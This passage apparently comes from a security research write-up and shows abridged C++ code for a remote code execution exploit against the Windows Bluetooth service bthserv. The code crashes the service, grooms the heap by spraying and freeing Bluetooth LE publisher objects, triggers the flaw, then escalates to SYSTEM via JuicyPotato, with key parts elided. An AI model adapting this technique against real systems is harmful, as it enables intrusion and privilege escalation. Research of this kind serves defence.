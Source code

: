 The second step is the more essential one:
```
bool DoStep2()
{
    // Crashes bthserv to reset the heap layout, the service will automatically restart
    CrashBthserv();
    
    // The heart of the exploit - see snippet below
    TriggerRCEWithSprayingAndWaitForHarness();
    
    // If the exploit succeeded, waits until the post-exploitation steps finish (like escalating from LOCAL SERVICE to SYSTEM)
    WaitForJuicyPotatoAndShell();
}
```

The heart of the exploit is in `TriggerRCEWithSprayingAndWaitForHarness`:
```
bool TriggerRCEWithSprayingAndWaitForHarness()
{
    // A lambda function to create a BluetoothLEAdvertisementPublisher object (both on the client & the server)
    auto GenerateBthLEPublisher =...;

    // A lambda function which sprays the heap of bthserv with BluetoothLEAdvertisementPublisher objects by creating many of them
    auto SprayObjects = ...;

    // A lambda function which deletes previously created objects.
    auto FreeObjects = ...;

    ...
    for (uint32_t i = 0; i < k_RetryCount; ++i)
    {
            // First we spray some objects
            if (!SprayObjects(0, k_InitialSprayCount))
            {
                return false;
            }
            
            // Then we delete some objects
            ...
            for (uint32_t i = 0; i < k_FreeCount; i += freeCount)
            {
                FreeObjects(freeOffset, freeCount);
            }
            ...

            // And then we spray more objects again, all of these steps are supposed to groom the heap
            if (!SprayObjects(k_InitialSprayCount, k_PostSprayCount))
            {
                return false;
            }

            // Trigger the vulnerabilty and wait until the harness DLL reports back (if the exploit succeeded!)
            // If this step fails, we simply repeat the loop
            if (!DeployRCEPayloadAndWaitForHarness())
            {
                Sleep(2000u);
                continue;
            }

```